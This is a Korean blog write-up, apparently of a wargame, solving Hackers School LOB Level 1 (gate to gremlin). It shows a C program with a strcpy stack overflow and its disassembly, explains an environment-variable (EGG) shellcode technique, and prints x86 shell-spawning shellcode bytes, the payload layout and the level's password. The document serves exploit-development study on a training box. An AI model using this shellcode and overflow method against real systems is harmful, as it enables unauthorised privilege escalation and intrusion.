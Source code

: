 ```yaml
---
date: '2022-10-11'
before : '2022-10-10'
after : '2022-10-12'
title: 'FTZ LOB LEVEL 1'
categories: ['C-SEC', 'KOR','PWN']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에


이거이거 드디어 본방이라고 할 수 있는 FTZ LOB의 시작이다! 


사실 이것 제외하고도 본격적인 CTF 실습을 위해 Hack The Box를 병행하고 있지만, 이건 저작권 관련해서 자세하게 공략글을 쓸 수는 없다. 그래도 공부하는 기법들(대부분 웹 해킹)에 대해서는 꾸준히 업로드 해보려고 한다.


### 1. Level 1 : Gate -> Gremlin

LOB부터는 딱히 힌트는 제공되지 않는다. 그래도 소스코드야 볼 수 있으니 이미 FTZ에서 익숙해진 우리라면 충분히 해결할 수 있을 것이다.


그런 의미에서 소스코드를 살펴보면, 딱히 어렵지 않다!

```
int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

첫 문제라 그런가, 딱히 FTZ과의 차이를 모르겠다. 아주 간단하게 오버플로우를 할 수 있는 구조이다.

```
0x8048430 <main>:       push   %ebp
0x8048431 <main+1>:     mov    %ebp,%esp
0x8048433 <main+3>:     sub    %esp,0x100
0x8048439 <main+9>:     cmp    DWORD PTR [%ebp+8],1
0x804843d <main+13>:    jg     0x8048456 <main+38>
0x804843f <main+15>:    push   0x80484e0
0x8048444 <main+20>:    call   0x8048350 <printf>
0x8048449 <main+25>:    add    %esp,4
0x804844c <main+28>:    push   0
0x804844e <main+30>:    call   0x8048360 <exit>
0x8048453 <main+35>:    add    %esp,4
0x8048456 <main+38>:    mov    %eax,DWORD PTR [%ebp+12]
0x8048459 <main+41>:    add    %eax,4
0x804845c <main+44>:    mov    %edx,DWORD PTR [%eax]
0x804845e <main+46>:    push   %edx
0x804845f <main+47>:    lea    %eax,[%ebp-256]
0x8048465 <main+53>:    push   %eax
0x8048466 <main+54>:    call   0x8048370 <strcpy>
0x804846b <main+59>:    add    %esp,8
0x804846e <main+62>:    lea    %eax,[%ebp-256]
0x8048474 <main+68>:    push   %eax
0x8048475 <main+69>:    push   0x80484ec
```
ebp-256시점에 배열이 다 채워지고 딱히 더미 데이터는 없는 것으로 보인다. 따라서 SFP 4바이트만큼을 더해주고 EGG를 등록한 후 EGG의 주소를 확인하여 입력해주면 된다. 


혹시 EGG가 뭔지 모른다면, 내 블로그의 다음 글을 확인해보자!


EGG의 주소: 0xbffffed4 





따라서 쉘 코드:
```
256 + sfp4 + ret4 => NOP * 260 + ret4(shellcode)
\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
```
비밀번호 : hello bof world

---
## Source

- 해커스쿨 FTZ
- Me!